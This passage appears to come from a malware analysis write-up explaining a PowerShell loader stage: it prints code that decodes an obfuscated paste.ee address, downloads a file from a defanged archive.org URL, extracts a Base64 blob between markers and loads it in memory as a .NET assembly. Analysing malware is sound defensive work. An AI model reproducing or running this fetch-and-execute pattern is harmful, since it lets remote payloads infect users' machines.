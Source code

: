 <img title="Second Sample Fourth Stage" src="../assets/SecondSampleFourthStage.png" style="display:block; margin-right:auto; margin-left:auto; padding-bottom:20px;">

```powershell
$potluck = '0/bA5qrGyK/d/ee.e#sap//:p##h';
$SqlDateTime = $potluck -replace '#', 't';

```
Here, most likely, parameters are being prepared for the malware that will be obtained in the fourth stage. A **"paste[.]ee"** address is obtained in reverse.

```powershell
$proctorship = 'https[:]//archive[.]org/download/new_image_20250516/new_image[.]jpg';
$intraclonal = New-Object System.Net.WebClient;
$intraclonal.Headers.Add('User-Agent','Mozilla/5.0');
$stickers = $intraclonal.DownloadData($proctorship);
$organises = [System.Text.Encoding]::UTF8.GetString($stickers);
```

In this code block, to download a file from the address stored in the **"proctorship"** variable, a **"$intraclonal"** variable is created and assigned an object of type **WebClient** using the command **"New-Object System.Net.WebClient"**. In the last two lines, the data from the address is downloaded into the **"$stickers"** variable, then converted to UTF8 format and stored in the **"$organises"** variable.

```powershell
$vacillancy = '<<BASE64_START>>';
$knockwursts = '<<BASE64_END>>';
$gingall = $organises.IndexOf($vacillancy);
$slitless = $organises.IndexOf($knockwursts);
$gingall -ge 0 -and $slitless -gt $gingall;
$gingall += $vacillancy.Length;
$followdays = $slitless - $gingall;
$Messina = $organises.Substring($gingall, $followdays);
$thrivingness = [System.Convert]::FromBase64String($Messina);
$schemata = [System.Reflection.Assembly]::Load($thrivingness);
```

In the above code block, the variables **"$vacillancy"** and **"$knockwursts"** are used to identify the start and end of the Base64 blob within the downloaded data. The variables **"$gingall"** and **"$slitless"** hold the corresponding start and end indices. Then, using the **"-ge"** (greater or equal) and **"-gt"** (greater than) operators, it checks whether the file was downloaded correctly. If the file was not downloaded, these index values will likely be 0 (or invalid), causing the check to fail.
